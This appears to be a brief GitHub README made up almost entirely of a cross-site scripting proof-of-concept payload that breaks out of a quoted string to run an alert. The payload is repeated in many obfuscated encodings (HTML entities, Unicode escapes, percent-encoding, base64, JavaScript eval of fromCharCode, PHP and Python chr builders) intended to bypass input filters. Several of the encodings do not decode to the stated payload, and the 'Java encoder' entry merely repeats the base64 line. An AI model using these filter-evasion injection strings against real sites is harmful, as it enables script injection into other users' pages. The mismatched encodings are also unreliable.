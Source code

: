 # prakash
linux repo
');alert('qualystest')//

Use HTML entities
&#39;;alert(&#39;qualystest&#39;)//
Use Unicode characters:

\u0027\u003B\u0061\u006C\u0065\u0072\u0074\u0028\u0027\u0071\u0075\u0061\u006C\u0079\u0073\u0074\u0065\u0073\u0074\u0027\u0029\u002F\u002F

Use hexadecimal encoding:
%27%3Balert%28%27qualystest%27%29%2F%2F
Use base64 encoding:
J3snO2FsZXJ0KCdxdWFseXRlc3QnKScvLw==
Use a URL encoder:
%6A%73%6F%6E%27%3B%61%6C%65%72%74%28%27%71%75%61%6C%79%73%74%65%73%74%27%29%2F%2F

Use a JavaScript encoder:
eval(String.fromCharCode(106,115,111,110,39,59,97,108,101,114,116,40,39,113,117,97,108,121,116,101,115,116,39,41,59,47,47))

Use a PHP encoder:

<?php echo chr(106).chr(115).chr(111).chr(110).chr(39).chr(59).chr(97).chr(108).chr(101).chr(114).chr(116).chr(40).chr(39).chr(113).chr(117).chr(97).chr(108).chr(121).chr(116).chr(101).chr(115).chr(116).chr(39).chr(41).chr(59).chr(47).chr(47); ?>
Use a Python encoder:

print(chr(106)+chr(115)+chr(111)+chr(110)+chr(39)+chr(59)+chr(97)+chr(108)+chr(101)+chr(114)+chr(116)+chr(40)+chr(39)+chr(113)+chr(117)+chr(97)+chr(108)+chr(121)+chr(116)+chr(101)+chr(115)+chr(116)+chr(39)+chr(41)+chr(59)+chr(47)+chr(47))
Java encoder
J3snO2FsZXJ0KCdxdWFseXRlc3QnKScvLw== 
